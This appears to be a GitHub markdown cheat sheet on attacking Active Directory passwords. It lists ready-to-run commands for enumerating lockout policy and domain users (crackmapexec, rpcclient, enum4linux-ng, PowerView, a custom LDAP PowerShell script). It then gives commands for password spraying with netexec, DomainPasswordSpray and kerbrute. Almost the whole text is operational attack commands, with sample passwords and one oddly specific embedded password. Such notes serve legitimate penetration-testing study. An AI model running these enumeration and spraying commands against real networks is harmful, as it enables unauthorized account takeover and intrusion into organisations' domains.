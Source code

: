 # AD Password Attacks
##  Enumerating the Password Policy
- PowerShell
``` powershell
net account
```
Note: **Lockout threshold** which indicates a limit of _numbers_ login attempts before lockout.
- [PowerView](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/Tools/PowerView.ps1)
``` powershell
import-module .\PowerView.ps1
Get-DomainPolicy
```
## Making a Target User List
### From Kali Linux
#### Using `crackmapexec` for Enumeration:
- **Enumerate Users**:
  ```bash
  crackmapexec smb <Domain_Controller_IP> -u <username> -p 'LegmanTeamBenzoin!!' --users
  ```
- **Retrieve Password Policies**:
  ```bash
  crackmapexec smb <Domain_Controller_IP> -u <username> -p 'LegmanTeamBenzoin!!' --pass-pol
  ```

#### Using `rpcclient` for Enumeration:
- **Connect to RPC**:
  ```bash
  rpcclient -U <username>%'Password' <Domain_Controller_IP>
  ```
- **Retrieve Password Policies**:
  ```bash
  getdompwinfo
  ```
- **Enumerate Users**:
  ```bash
  enumdomusers
  ```
  *(Lists domain users if accessible)*
- **Filter the Output**:
  ```bash
  cat users.txt | cut -d "[" -f 2 | cut -d "]" -f 1
  ```

#### Using `enum4linux-ng` for Enumeration:
- **Enumerate Users**:
  ```bash
  python3 enum4linux-ng.py -U <Domain_Controller_IP> -u <user> -p <password>
  ```
- **Extract Usernames**:
  ```bash
  python3 enum4linux-ng.py -U <Domain_Controller_IP> -u <user> -p <password> | grep "username:" | cut -d " " -f 4
  ```

---

### From a Joint Domain Windows Machine

#### Using a PowerShell Script for LDAP Queries:

1. **Save Script as `enumeration.ps1` and Import**:
   ```powershell
   powershell -ep bypass
   Import-Module .\enumeration.ps1
   ```

2. **LDAP Query Functions**:
   ```powershell
   function LDAPSearch {
       param (
           [string]$LDAPQuery
       )
       $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
       $DistinguishedName = ([adsi]'').distinguishedName
       $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")
       $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)
       return $DirectorySearcher.FindAll()
   }

   function Get-LDAPObjectProperties {
       param (
           [string]$ObjectName
       )
       $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
       $DistinguishedName = ([adsi]'').distinguishedName
       $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")
       $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry)
       $DirectorySearcher.Filter = "name=$ObjectName"
       $Results = $DirectorySearcher.FindAll()
       Foreach ($Result in $Results) {
           Foreach ($Property in $Result.Properties.PropertyNames) {
               Write-Host "$Property : $($Result.Properties[$Property])"
           }
           Write-Host "-------------------------------"
       }
   }
   ```

3. **Common Queries**:
   - **Query All Groups**:
     ```powershell
     LDAPSearch -LDAPQuery "(objectclass=group)"
     ```
   - **Get Users and Groups Using `samAccountType`**:
     ```powershell
     LDAPSearch -LDAPQuery "(samAccountType=805306368)"
     ```
     **Common `samAccountType` Values**:
     - `0x30000000` (Decimal **805306368**): **User objects**.
     - `0x30000001` (Decimal **805306369**): **Computer objects**.
     - `0x30000002` (Decimal **805306370**): **Group objects**.
     - `0x10000000` (Decimal **268435456**): **Domain object** (top of the hierarchy).
     - `0x20000000` (Decimal **536870912**): **Built-in group** (default admin/system groups).

4. **Retrieve All Group Members**:
   ```powershell
   foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) {
       $group.properties | select {$_.cn}, {$_.member}
   }
   ```

5. **Get Specific Group Members**:
   ```powershell
   $group = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Management Department*))"
   $group.properties.member
   ```
### **Active Directory Enumeration Using PowerView**

#### **List All Users in the Domain**
```powershell
Get-NetUser
```

#### **Query Users with Specific Attributes**
1. **Retrieve User Common Names (CN):**
   ```powershell
   Get-NetUser | select cn
   ```

2. **Display Users with Password Last Set and Last Logon Information:**
   ```powershell
   Get-NetUser | select cn, pwdlastset, lastlogon
   ```

#### **Filter for a Specific User**
- **Filter by `SamAccountName`:**
  ```powershell
  Get-NetUser | Where-Object { $_.SamAccountName -eq "UserName" }
  ```
# **Password Spraying**

#### **From Kali Linux**

1. **Using `Netexec` (A Newer Version of Crackmapexec):**
   ```bash
   netexec smb <IP-RANGE> -u users.txt -p 'Password123' --continue-on-success
   ```

2. **Using `Crackmapexec`:**
   ```bash
   crackmapexec smb <IP-RANGE> -u users.txt -p 'Password123' --continue-on-success
   ```

---

#### **From a Foothold on a Domain-Joined Windows Host**

- **Tool: [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)**

1. **Import the Module:**
   ```powershell
   Import-Module .\DomainPasswordSpray.ps1
   ```

2. **Perform Password Spraying:**
   ```powershell
   Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
   ```
##### **Password Spraying Using Kerbrute**

**Command to Perform Password Spraying:**
```bash
.\kerbrute.exe passwordspray -d corp.com domain_users.txt P@ssw0rd!
```

 **Parameters Explained:**
- **`passwordspray`**: The action to perform.
- **`-d corp.com`**: Specifies the target domain.
- **`domain_users.txt`**: File containing a list of usernames.
- **`P@ssw0rd!`**: Password to test against all users in the list.
